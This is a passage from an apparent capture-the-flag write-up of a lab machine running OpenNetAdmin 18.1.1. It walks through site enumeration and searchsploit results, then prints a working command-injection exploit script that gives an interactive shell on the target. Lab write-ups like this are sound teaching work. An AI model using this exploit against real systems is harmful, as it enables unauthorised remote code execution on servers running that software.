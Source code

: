 #### /music

The page is for a music site:

![image-20200118134836666](https://0xdfimages.gitlab.io/img/image-20200118134836666.png)

Most of the links point back to `index.html`, or a couple other sides on the page. But the one that really matters is the Login link at the top - it points to `http://10.10.10.171/ona` (which doesn’t make a whole lot of sense).

#### Other Sites

The other sites were also mostly dummy text. I spent some time checking them out, but once I found `/ona`, I decided to focus there (especially given the name of the box).

#### /ona

This is an instance of OpenNetAdmin:

![image-20200118135047875](https://0xdfimages.gitlab.io/img/image-20200118135047875.png)

I can see the version is 18.1.1, which it is warning is not the latest.

## Shell as www-data

### Exploit POC

Searchsploit shows a remote code execution vulnerability in this version:

```

root@kali# searchsploit OpenNetAdmin
-------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                            |  Path
                                                                          | (/usr/share/exploitdb/)
-------------------------------------------------------------------------- ----------------------------------------
OpenNetAdmin 13.03.01 - Remote Code Execution                             | exploits/php/webapps/26682.txt
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)              | exploits/php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                               | exploits/php/webapps/47691.sh
-------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

There’s a link to this exploit on [exploit-db.com](https://www.exploit-db.com/exploits/47691). It’s super simple. The script runs an infinite bash loop taking commands and printing the output:

```

#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done

```
